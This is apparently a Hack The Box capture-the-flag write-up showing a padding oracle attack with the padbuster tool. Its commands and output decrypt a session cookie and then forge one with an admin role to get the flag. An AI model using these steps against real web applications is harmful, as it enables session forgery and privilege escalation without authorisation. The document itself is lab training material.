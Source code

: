 ```yaml
---
title:  "Oracle Padding "
date:   2021-08-05 21:15:00 +0000
categories: [techniques]
tags: [burp, web exploitation]
---
```



STEP 1
======
```
padbuster http://docker.hackthebox.eu:37742 zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

*** Response Analysis Complete ***

The following response signatures were returned:


    ID# Freq Status Length Location
    
    1 256 302 0 profile.php


STEP 2
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

** Finished ***

    [+] Decrypted value (ASCII): {"user":"bdmin","role":"user"}

    [+] Decrypted value (HEX): 7B2275736572223A2262646D696E222C22726F6C65223A2275736572227D0202

    [+] Decrypted value (Base64): eyJ1c2VyIjoiYmRtaW4iLCJyb2xlIjoidXNlciJ9AgI=


STEP 3
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"
```

** Finished ***

    [+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D


STEP 4
======
We add the newly made encrypted value of "role=admin" to the cookies and we find the flag.




Before
------
![img-description](/images/Oracle-Padding-1.png)
_BEFORE - encrypted value of "role=admin" to the cookies_


After
-----
![img-description](/images/Oracle-Padding-2.png)
_AFTER - encrypted value of "role=admin" to the cookies_



